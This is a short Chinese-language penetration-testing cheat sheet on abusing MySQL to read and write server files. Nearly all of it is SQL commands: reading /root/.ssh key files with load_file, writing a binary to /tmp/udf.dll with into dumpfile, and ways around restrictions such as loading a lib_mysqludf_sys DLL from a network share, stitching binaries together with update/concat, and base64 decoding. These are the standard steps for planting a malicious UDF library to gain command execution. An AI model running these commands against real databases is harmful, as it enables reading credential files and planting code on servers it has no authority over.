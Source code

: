 ## 1. 渗透



### 1.2. 读文件

```mysql
# 创建临时表
create temporary table text(test text);

# 极小文件
select hex(load_file('/root/.ssh/id_rsa.pub'));

# 大文件
insert into text(test) values (load_file('/root/.ssh/id_rsa.pub'));

# 超大文件
# 需要开启 secure_file_priv
# 存在编码问题
load data infile 'E:\\a.jar' into table text FIELDS TERMINATED BY 'a1b2c3d4;a1b2c3d4;' lines terminated by '\0' (@test) set test=hex(@test);

# mysqldump -uroot -h127.0.0.1 -P3306 -p text > text
```



### 1.3. 写文件

```mysql
# 需要开启 secure_file_priv
select 0x30 into dumpfile '/tmp/udf.dll';
```

关于绕过可以用：

1. load_file函数支持网络路径。`load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') `

2. 将二进制拆分，用update写入表中。

   ```mysql
   create table temp(data longblob);
   insert into temp(data) values 0x30;
   update temp set data = concat(data ,0x31);
   select data from temp into dumpfile '/tmp/udf.dll';
   ```

3. 利用base64。

   ```mysql
   select from_base64("MQo=") into dumpfile '/tmp/udf.dll';
   ```



